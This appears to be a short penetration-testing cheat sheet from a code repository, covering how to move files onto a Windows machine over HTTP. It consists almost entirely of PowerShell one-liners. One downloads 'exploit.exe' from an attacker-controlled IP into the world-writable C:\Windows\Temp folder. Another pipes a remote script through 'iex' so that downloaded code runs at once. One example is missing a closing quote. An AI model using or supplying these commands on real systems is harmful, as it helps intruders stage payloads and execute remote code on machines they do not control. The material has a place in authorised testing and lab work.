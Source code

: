 # Windows HTTP File Transfer

*********************************************************************************
Items inside [SQUARE-BRACKETS] indicate changeable (fill in the blank) fields.  
Note: Bracket charactors themselves [ ] require removal. See examples.
*********************************************************************************

### When wget is not available/usable on a Windows machine use this command to pull files from an http server:
```
powershell -c "Invoke-WebRequest -Uri '[HTTP-SERVER-IP]/[FILE]' -OutFile '[FILE-PATH]'"
```
Example:
```
powershell -c "Invoke-WebRequest -Uri '10.10.100.254/exploit.exe' -OutFile 'C:\Windows\Temp\exploit.exe'"
```
Note: C:\Windows\Temp is commonly world writable

### Another useful command to achieve succesful http file transfer via powershell:
```
powershell iex (New-Object Net.WebClient).DownloadString('http://[HTTP-SERVER-IP]:[PORT]/[FILE])
```
Example:
```
powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.100.254:80/exploit.exe)
